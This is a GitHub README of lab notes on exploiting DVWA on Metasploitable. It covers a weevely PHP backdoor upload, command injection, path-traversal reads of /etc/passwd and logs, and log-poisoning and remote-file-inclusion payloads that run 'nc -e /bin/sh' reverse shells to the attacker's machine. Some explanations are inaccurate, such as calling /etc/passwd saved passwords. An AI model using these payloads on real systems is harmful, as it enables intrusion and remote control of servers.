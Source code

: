 # basic vulnerabilities in Metasploitable
## File Upload Vulnerability
- weevely is a tool used for opening the backdoors and to access the website.
```
weevely generate 123456 /root/shell.php
```
- this creates a php file which is used to upload and open backdoors
- after uploading, run the following command
- `weevely (respective url) 123456`
- now from the terminal we can open the backdoor that is  `cd ..` to get back and then we can access as we want.
- burpsuite is used to interpt the website being executed with the help of proxy.

> __low__ - any file can be uploaded i.e., shell.php
>![Screenshot 2024-04-12 223232](https://github.com/stellados53/kali_commands/assets/142677726/dbc0885c-2112-4832-989f-a6c8dba0eb44)
> 
> __medium__ - we rename the file from shell.php to shell.jepg i.e., shell.jpeg and upload it using bruiteforce by changing the filename to php.
>![Screenshot 2024-04-12 224041](https://github.com/stellados53/kali_commands/assets/142677726/9d3a9640-817f-446f-91cc-f09b4c5d2baf)
> 
> __high__ - we change the file type to shell.php.jpeg and upload and then expoit.
> ![Screenshot 2024-04-12 224407](https://github.com/stellados53/kali_commands/assets/142677726/e202b0e8-1ee3-44e0-8f28-a04c6d404255)
- overall output will be..
 ![Screenshot 2024-04-12 224454](https://github.com/stellados53/kali_commands/assets/142677726/5c02d3fb-e53e-4ed3-85c7-477390b703c7)


<h3 align="center"> ... </h3> 

## Code Execution Vulnerability

- open any searchable website (dvwa- command execution)
- run the following command
```
nc -vv -l -p 8080
```
![Screenshot 2024-04-09 232801](https://github.com/stellados53/kali_commands/assets/142677726/7d1cc4d5-5310-4934-84ba-2c44d0124a0e)

> nc   = netcat tool this is used to use and connect the computer to the website.
> 
> -vv  = it is just a verbose mode, which retireve more output.
> 
> -l   = Listen mode, used to create a server that listens for incoming connections.
> 
> -p   = Specifies the source port number.
> 
> 8080 = port number.
- Now you can execute any command of kali linux such as pwd, ls -la.
- the execution will be done.

> __low__ - in searchbox END WITH ";" AND RUN THE COMMAND ACCORDING TO THE WEBSITE OS.MOST IMPORTANT IF THE IP IS 192.168.11.129, SUBTRACT THE LAST NUMBER -1 THAT IS 192.168.11.128.
>
> __medium__ - it cannot run two commands using ";" so we use "|" for the exploit.
>![Screenshot 2024-04-12 223232](https://github.com/stellados53/kali_commands/assets/142677726/d22e5048-15cd-491b-817f-f2a79979e8d3)
>
> __high__ is not even possible

<h3 align="center"> ... </h3> 

## File Inclusion Vulnerability
- it allows you to read  any file in the same server.
- access files outside www directory.
- it is used to get the reverse connection of the webserver.
- generally to get the commands to be executed in the kali linux we use  `cat etc/passwd`, the same we use in the file url to extract all the saved passwds.
```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../../etc/passwd
```
- by using this command we can get the all saved passwords saved in the webserver.
- ![Screenshot 2024-04-12 222928](https://github.com/stellados53/kali_commands/assets/142677726/615af2ec-4ac3-4ca6-a33b-28a323ed794a)
- by modifing the useragent from mozilla to `<?phpinfo();?>` using bruiteforce proxy(header)..we get the php information about the website
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/faab1ae4-f1dc-4578-9098-b2995c78dc04)
- by modifing the useragent to `<?passthru("nc -e /bin/sh 192.168.11.128 8888");?>` in the bruiteforce header for the connect of the website..and the terminal of kali linux `nc -vv -l -p 8888` to make connection.
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/26b2674a-e047-4c5f-8f72-bc938ca5ed35)
### Methods Of Exploitation
- Now as reference from the above use the another executable urls.
 ```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../..//proc/self/environ
```
```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../../var/log/auth.log
```
```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../../var/log/apache2/access.log
```
- In `proc/self/environ`..it retrieves the information about the client information.
> ![Screenshot 2024-04-12 231736](https://github.com/stellados53/kali_commands/assets/142677726/ab250e34-700e-49c3-bcb9-500b88edd38c)
>
- In `var/log/auth.log`..it retrieves all the login attempts to the webserver.
- In the split the terminal into 2 the one contains the the connection command that is `nc -vv -l -p 8888` and the other will be `ssh "<?passthru('nc -e /bin/sh 192.168.11.128 8888');?>@192.168.11.128`
- But the passthru command contain spaces that is between nc and -e etc..so we use decoder from the bruiteforce to encode the command as base64 to get a non-indent space line
> ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/a13b5290-c212-4249-9e31-a40e1a2b3914)
> 
- now..run the command as per the image.
> ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/b7b7144e-e541-40ee-85f1-86ca80ac5fae)
> 
- then we get the final reverse connection to the webserver..
> ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/5ce2bbdf-bd7f-407f-9bbb-7945b1662342)

<h3 align="center"> ... </h3> 

## Remote File Inclusion Vulnerability

- Similar to local file inclusion.
- But allows an attacker read ANY file from ANY server.
- Execute php files from other servers on the current server.
- Store php files on other servers as .txt

- Firstly we should go the the metaspoitable manchine and run.
```
sudo nano /etc/php5/cgi/php.ini
```
- This allows the url for the remote file inclusion.
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/2a55caff-d69e-43ee-8980-258d3d95ddef)
- Now run `ctrl+W` this allows you to search any line in the output.
- Now run `allow_url` this searches the allow_urlf as mentioned in the above image.
- Make sure that they both are ON, if not change it and run `ctrl+X` then `Y`.
- Then to save the location `ctrl+T` then select `php.ini`.
- Then click enter.
- Now we have to restart the webserver so that the changes work properly. Run the command.
```
sudo /etc/init.d/apache2 restart
```
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/a815f59d-b4a3-4b53-aa9b-41bc7fdaf015)
- FINISHED!!
- Now open the kali linux and create a file. that should contain the following content
```
<?php
passthru("nc -e /bin/sh 8080");
?>
```
![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/e3e8e25e-d396-4110-a989-0c7383164e5d)
- now save the file in the `/var/www/html/` location.
- open terminal and DVWA website set it as low and open file inclusion.
- make sure that the apache2 is already installed. To check the status run..`sudo service apache2 status`. make sure that the they __active(running)__ and __enabled__.
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/2b7f42f2-0d66-4535-a411-4ac3de4f7b4c)
- If not, To start the apache2 server run the command `sudo service apache2 start`.
- Now open the webbrowser and try to access the file in webbrowser.
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/f16a0ddb-eeac-4750-981f-0170a66348e0)
- now copy the url and paste it from the `?page=`..remove`include.php`. this looks like..
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/8edf1c00-e4ca-4e74-afea-dfff1cdf1dc7)
- now open the terminal and run `nc -vv -l -p 8080` to recieve the reverse connection.
- as we click enter in the webbrowser. this makes the connection in the command terminal with the webbrowser.
- ![Screenshot 2024-04-20 162650](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/edebbc23-9355-4bfa-97a2-c8335a10cc3c)


